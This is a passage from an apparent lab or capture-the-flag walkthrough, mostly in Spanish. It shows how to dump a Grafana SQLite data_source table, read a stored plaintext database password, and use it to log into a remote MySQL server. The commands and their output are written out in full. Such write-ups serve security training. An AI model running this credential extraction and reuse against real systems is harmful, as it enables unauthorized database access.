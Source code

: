 > Enumerate table schema

```console
sqlite> .schema data_source 
CREATE TABLE `data_source` (
`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL
, `org_id` INTEGER NOT NULL
, `version` INTEGER NOT NULL
, `type` TEXT NOT NULL
, `name` TEXT NOT NULL
, `access` TEXT NOT NULL
, `url` TEXT NOT NULL
, `password` TEXT NULL
, `user` TEXT NULL
, `database` TEXT NULL
, `basic_auth` INTEGER NOT NULL
, `basic_auth_user` TEXT NULL
, `basic_auth_password` TEXT NULL
, `is_default` INTEGER NOT NULL
, `json_data` TEXT NULL
, `created` DATETIME NOT NULL
, `updated` DATETIME NOT NULL
, `with_credentials` INTEGER NOT NULL DEFAULT 0, `secure_json_data` TEXT NULL, `read_only` INTEGER NULL, `uid` TEXT NOT NULL DEFAULT 0);
CREATE INDEX `IDX_data_source_org_id` ON `data_source` (`org_id`);
CREATE UNIQUE INDEX `UQE_data_source_org_id_name` ON `data_source` (`org_id`,`name`);
CREATE UNIQUE INDEX `UQE_data_source_org_id_uid` ON `data_source` (`org_id`,`uid`);
CREATE INDEX `IDX_data_source_org_id_is_default` ON `data_source` (`org_id`,`is_default`);
```

> DataSource is a name given to the connection set up to a database from a server
{: .prompt-tip}

> Extract database credentials

```console
sqlite> .mode column
sqlite> .header on
sqlite> SELECT user, password, database FROM data_source;
user     password                    database
-------  --------------------------  --------
grafana  dontStandSoCloseToMe63221!  grafana
```

> Aquí puedes encontrar algunos comandos básicos de `SQLite`: [https://www.sqlitetutorial.net/sqlite-commands/](https://www.sqlitetutorial.net/sqlite-commands/)
{: .prompt-info}

Con estas credenciales nos conectamos a la base de datos que enumeramos anteriormente con `nmap`, y extraemos las credenciales del usuario `developer`:

```console
❯ mysql -h '10.10.11.183' -u 'grafana' -p grafana
Enter password:       
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 66
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)
                                              
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
                                                                                             
MySQL [grafana]> show schemas;                                                               
+--------------------+
| Database           |
+--------------------+            
| grafana            |    
| information_schema |    
```